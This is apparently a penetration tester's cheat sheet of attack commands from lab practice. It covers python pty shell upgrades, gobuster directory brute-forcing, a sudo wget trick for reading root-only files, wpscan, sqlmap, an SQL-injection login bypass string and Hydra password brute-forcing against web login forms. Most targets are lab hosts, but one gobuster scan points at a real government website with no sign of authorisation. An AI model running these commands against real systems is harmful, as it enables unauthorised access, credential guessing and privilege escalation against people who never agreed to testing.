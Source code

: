 ### upgrading shells

https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html

```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

/bin/sh -i
```

gobuster dir --url https://10.129.240.189 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

go buster status code : `gobuster dir -u https://www.jmicc.gov.pk/ -w /usr/share/wordlists/dirb/common.txt -b '403,404'`

using wget to reveal the text as /root/root

sudo wget --input-file /root/root.txt

https://gtfobins.github.io/

wpscan --url https://brainfuck.htb --disable-tls-checks

https://rumkin.com/tools/cipher/ for ciphers

`sqlmap -r login.req`

sqlinjection try: `admin'-- -`

Using Hydra

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid"
```

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect"

```
